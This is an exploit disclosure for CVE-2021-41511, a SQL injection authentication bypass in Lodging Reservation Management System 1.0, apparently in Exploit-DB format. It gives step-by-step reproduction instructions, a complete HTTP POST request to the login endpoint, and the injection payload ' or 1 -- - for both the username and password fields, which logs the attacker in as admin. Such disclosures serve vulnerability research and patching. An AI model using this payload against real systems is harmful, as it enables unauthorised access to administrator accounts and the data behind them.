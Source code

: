 # CVE-2021-41511


# Exploit Title: Lodging Reservation Management System 1.0 - SQL Injection / Authentication Bypass
# Exploit Author: Nitin Sharma(vidvansh)
# Vendor Homepage: https://www.sourcecodester.com/php/14883/lodging-reservation-management-system-php-free-source-code.html
# Software Link: https://www.sourcecodester.com/download-code?nid=14883&title=Lodging+Reservation+Management+System+in+PHP+FREE+Source+Code
# Version: v1.0
# Tested on: Windows 10 - XAMPP Server 



# Description : Password input is affected with authentication bypass because of improper sanitisation which lead to access to auauthorised accounts.



#Steps-To-Reproduce:
Step 1 Go to the Product admin panel http://localhost/lodge/admin/login.php.
Step 2 – Enter anything in username and password
Step 3 – Click on Login and capture the request in the burp suite
Step4 – Change the username to ' OR 1 -- -  and password to ' OR 1 -- -.
Step 5 – Click forward and now you will be logged in as admin.

# PoC:

POST /lodge/classes/Login.php?f=login HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 49
Origin: http://localhost
Connection: close
Referer: http://localhost/lodge/admin/login.php
Cookie: PHPSESSID=2fa01e7lg9vfhtspr2hs45va76
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

username=+'+or+1%3D1+--+&password=+'+or+1%3D1+--+


# Authentication Bypass:

# Go to admin login page (http://localhost/lodge/admin/login.php), then use below payload as username and password => 
Username: ' or 1 -- -			
Password: ' or 1 -- -
